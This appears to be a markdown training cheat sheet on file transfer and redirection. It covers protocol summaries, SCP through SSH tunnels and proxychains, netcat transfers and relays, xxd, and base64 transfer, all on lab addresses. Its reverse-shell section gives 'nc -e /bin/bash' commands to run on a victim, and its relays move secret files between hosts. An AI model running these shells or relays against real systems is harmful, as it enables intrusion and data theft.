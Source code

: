   ## FILE TRANSFER AND REDIRECTION

## COMMON METHODS FOR TRANSFERRING DATA
   
    -TFTP
    -FTP
    -Active
    -Passive
    -FTPS
    -SFTP
    -SCP
## TFTP (Trivial File Transfer Protocol)

    -RFC 1350 Rev2
    -UDP transport
    -Extremely small and very simple communication
    -No terminal communication
    -Insecure (no authentication or encryption)
    -No directory services
    -Used often for technologies such as BOOTP and PXE

## FTP (File Transfer Protocol)

RFC 959
  
    -Uses 2 separate TCP connections
    -Control Connection (21) / Data Connection (20*)
    -Authentication in clear-text
    -Insecure in default configuration
    -Has directory services
    -Anonymous login

## FTPS (File Transfer Protocol Secure)

    -TCP transport
    -Adds SSL/TLS encryption to FTP
    -Authentication with username/password or PKI
    -Interactive terminal access

## SFTP (Secure File Transfer Protocol)

    -TCP transport (port 22)
    -Uses symmetric and asymmetric encryption
    -Adds FTP like services to SSH
    -Authentication through sign in (username and password) or with SSH key
    -Interactive terminal access 

## SCP (Secure Copy Protocol)

    -TCP Transport (port 22)
    -Uses symmetric and asymmetric encryption
    -Authentication through sign in (username and password) or with SSH key
    -Non-Interactive


## SCP SYNTAX

Download a file from a remote directory to a local directory
    
    $ scp student@172.16.82.106:secretstuff.txt /home/student
Upload a file to a remote directory from a local directory
    
    $ scp secretstuff.txt student@172.16.82.106:/home/student
Copy a file from a remote host to a separate remote host
    
    $ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student
    
##  SCP SYNTAX W/ ALTERNATE SSHD
Download a file from a remote directory to a local directory
    
    $ scp -P 1111 student@172.16.82.106:secretstuff.txt .
Upload a file to a remote directory from a local directory
    
    $ scp -P 1111 secretstuff.txt student@172.16.82.106:
    
## SCP SYNTAX W/ ALTERNATE SSHD

Download a file from a remote directory to a local directory
    
    $ scp -P 1111 student@172.16.82.106:secretstuff.txt .
Upload a file to a remote directory from a local directory
    
    $ scp -P 1111 secretstuff.txt student@172.16.82.106:

## SCP SYNTAX THROUGH A TUNNEL
Create a local port forward to target device
    
    $ ssh student@172.16.82.106 -L 1111:localhost:22 -NT
Download a file from a remote directory to a local directory
    
    $ scp -P 1111 student@localhost:secretstuff.txt /home/student
Upload a file to a remote directory from a local directory
    
    $ scp -P 1111 secretstuff.txt student@localhost:/home/student
## SCP SYNTAX THROUGH A DYNAMIC PORT FORWARD

Create a Dynamic Port Forward to target device
    
    $ ssh student@172.16.82.106 -D 9050 -NT
Download a file from a remote directory to a local directory
    
    $ proxychains scp student@localhost:secretstuff.txt .
Upload a file to a remote directory from a local directory
    
    $ proxychains scp secretstuff.txt student@localhost:
    
## NETCAT: CLIENT TO LISTENER FILE TRANSFER
Listener (receive file):

    nc -lvp 9001 > newfile.txt
Client (sends file):

    nc 172.16.82.106 9001 < file.txt
##    NETCAT: LISTENER TO CLIENT FILE TRANSFER
Listener (sends file):

    nc -lvp 9001 < file.txt
Client (receive file):

    nc 172.16.82.106 9001 > newfile.txt

## NETCAT RELAY DEMOS
Listener - Listener


      (host 1) On Internet_Host (send):

              $ nc 172.16.82.106 1111 < secret.txt

              (this ip is from eth1 from middle man )
      
      (middle man ) On Blue_Host-1 Relay:
  
              $ mknod mypipe p
              $ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe

       (Host 2) On Blue_Priv_Host-1 (receive):
        
               $ nc 192.168.1.1 3333 > newsecret.txt

               (this ips is eth0 of middle man )
Client - Client

       (host 1) On Internet_Host (send):

                $ nc -lvp 1111 < secret.txt
        
         (middle man) On Blue_Host-1 Relay:

                $ mknod mypipe p
                $ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

                      (the 2 ips are host 1 and host 2 ips)
            
        (host 2) On Blue_Priv_Host-1 (receive):

                $ nc -lvp 3333 > newsecret.txt
        
       
 ## REVERSE SHELL USING NETCAT
First listen for the shell on your device.

    $ nc -lvp 9999

      On Victim using -c :

    $ nc -c /bin/bash 10.10.0.40 9999
    
      On Victim using -e :

    $ nc -e /bin/bash 10.10.0.40 9999     
    
## XXD EXAMPLE
echo a string of text and use xxd to convert it to a plain hex dump with the -p switch\

    $ echo "Hex encoding test" | xxd -p
    48657820656e636f64696e6720746573740a

echo hex string and use xxd to restore the data to its original format

    $ echo "48657820656e636f64696e6720746573740a" | xxd -r -p
    Hex encoding test 

## TRANSFER FILE WITH BASE64
generate the base64 output of a file, with line wrapping removed

    $ base64 -w0 logoCyber.png

copy the output

## TRANSFER FILE WITH BASE64
create a new file on your machine

    $ nano b64image.png

    paste, save & exit

decode from base64 with -d

    $ base64 -d b64image.png > logoCyber.png
    
